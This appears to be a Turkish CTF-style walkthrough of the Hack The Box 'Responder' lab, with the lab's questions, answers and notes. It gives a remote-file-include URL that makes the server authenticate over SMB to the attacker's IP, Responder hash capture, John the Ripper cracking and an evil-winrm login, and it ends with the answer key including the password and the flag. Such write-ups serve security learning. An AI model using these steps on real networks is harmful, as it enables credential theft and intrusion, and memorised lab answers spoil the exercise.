








RESPONDER :

Q1: When visiting the web service using the IP address, what is the
domain that we are being redirected to?

A1: unika.htb

Q2: Which scripting language is being used on the server to generate
webpages?

A2: php

Q3: What is the name of the URL parameter which is used to load
different language versions of the webpage?

A3: page (internet araması ile buldum) (lang değilmiş)

Q4: Which of the following values for the page parameter would be an
example of exploiting a Local File Include (LFI) vulnerability:
"french.html", "//10.10.14.6/somefile",
"../../../../../../../../windows/system32/drivers/etc/hosts",
"mimikatz.exe"

A4: ../../../../../../../../windows/system32/drivers/etc/hosts

Q5: Which of the following values for the page parameter would be an
example of exploiting a Remote File Include (RFI) vulnerability:
"french.html", "//10.10.14.6/somefile",
"./../../../../../../../windows/system32/drivers/etc/hosts",
"mimikatz.exe"

A5: //10.10.14.6/somefile

Q6: What does NTLM stand for?

A6: New Technology Lan Manager

Q7: Which flag do we use in the Responder utility to specify the network
interface?

A7: -i

Q8: There are several tools that take a NetNTLMv2 challenge/response and
try millions of passwords to see if any of them generate the same
response. One such tool is often referred to as john, but the full name
is what?.

A8: john the ripper

Q9: What is the password for the administrator user?

A9: Badminton

Dipnot:

Responder Kullanımı: özellikle yerel ağlarda (LAN) veya VPN/tünel
bağlantılarında kimlik bilgisi (hash) yakalamak için tasarlanmış güçlü
bir ağ aracıdır.

Python ile yazılmış olan bu araç, özellikle Windows ortamlarındaki ağ
protokollerinin zafiyetlerinden faydalanır.

**Çalışma Mantığı:**

1.  Bir Windows kullanıcısı ağda olmayan veya yanlış yazılmış bir
    paylaşıma gitmek isterse (örneğin \\\yazicii yerine yanlışlıkla
    \\\yaziciii yazarsa), DNS sunucusu bu adresi bulamaz.

2.  DNS başarısız olduğunda, Windows makinesi yerel ağa **LLMNR** veya
    **NBT-NS** protokollerini kullanarak bir yayın (broadcast) yapar ve
    "Ağda *yaziciii* adında biri var mı?" diye sorar.

3.  Ağda dinleme yapan **Responder**, saniyesinde araya girerek "Evet,
    *yaziciii* benim, bana bağlanabilirsin ama önce kimliğini doğrula
    (bana hash'ini gönder)" der.

4.  Kurbanın bilgisayarı, kullanıcının parolasının özetini (NetNTLMv2
    hash) Responder'a gönderir. Responder bu hash'i ekrana ve log
    dosyasına kaydeder. (Daha sonra bu hash, *John the Ripper* veya
    *Hashcat* ile kırılmaya çalışılır).

sudo responder -I tun0

Komutu çalıştırdığınızda Responder çeşitli sahte sunucuları (SMB, HTTP,
SQL, FTP vb.) ayağa kaldırır ve beklemeye başlar. Bir makine (örneğin
daha önceki sorunuzdaki LFI zafiyeti üzerinden SMB yönlendirmesi
yaptığınız sunucu) size bağlanmaya çalıştığında, ekranda yakalanan
**NetNTLMv2** hash'i belirecektir.

adresi /etc/hosts’umuza kaydettikten sonra lfi’ı tetiklemek için

<http://unika.htb/index.php?page=//10.10.16.205/test> (kendi ip
adresimiz)

ziyaret ediyoruz ve sunucu smb üzerinden bizim cihazımıza bağlanmaya
çalıştığı için administrator hash’ini alıyoruz

daha sonra bu hash’i john ile kırıcaz.

hash.txt’ye kaydedip

Q10: We'll use a Windows service (i.e. running on the box) to remotely
access the Responder machine using the password we recovered. What port
TCP does it listen on?

A10: 5985

Dipnot: **5985/tcp** portu, **WinRM (Windows Remote Management)**
servisidir.

Bu servisi Windows sistemlerin **SSH alternatifi** (uzaktan komut satırı
yönetimi) olarak düşünebilirsiniz.

bu servisle kali linux’ta evil-winrm tool’u ile iletişim kurabiliriz.

evil-winrm -i 10.129.22.213 -u Administrator -p badminton

Q11: On which user's desktop is the flag located?

A11: mike

Q12: (Flag) Submit the flag located on the mike user's desktop.

A12: ea81b7afddd03efaa0945333ed147fac

